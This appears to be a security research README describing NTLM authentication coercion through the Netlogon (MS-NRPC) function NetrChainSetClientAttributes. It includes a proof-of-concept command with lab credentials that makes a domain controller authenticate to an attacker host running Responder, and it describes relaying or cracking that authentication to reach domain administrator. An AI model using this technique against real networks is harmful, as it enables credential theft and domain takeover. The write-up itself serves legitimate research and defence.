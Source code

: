 # MS-NRPC - Remote call to NetrChainSetClientAttributes (opnum 49)

## Summary

 - **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\NETLOGON`

 - **Function name**: [`NetrChainSetClientAttributes`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a416e82-0299-4ff0-a25d-223f972ba1d6)

 - **Function operation number**: `49`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrChainSetClientAttributes`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a416e82-0299-4ff0-a25d-223f972ba1d6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrChainSetClientAttributes('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS NetrChainSetClientAttributes(
   [in, string, ref] LOGONSRV_HANDLE PrimaryName,
   [in, string, ref] wchar_t* ChainedFromServerName,
   [in, string, ref] wchar_t* ChainedForClientName,
   [in, ref] PNETLOGON_AUTHENTICATOR Authenticator,
   [in, out, ref] PNETLOGON_AUTHENTICATOR ReturnAuthenticator,
   [in] DWORD dwInVersion,
   [in, ref] [switch_is(dwInVersion)] 
     NL_IN_CHAIN_SET_CLIENT_ATTRIBUTES* pmsgIn,
   [in, out, ref] DWORD* pdwOutVersion,
   [in, out, ref] [switch_is(*pdwOutVersion)] 
     NL_OUT_CHAIN_SET_CLIENT_ATTRIBUTES* pmsgOut
 );
```

## References

 - Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

 - Documentation of function `NetrChainSetClientAttributes`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a416e82-0299-4ff0-a25d-223f972ba1d6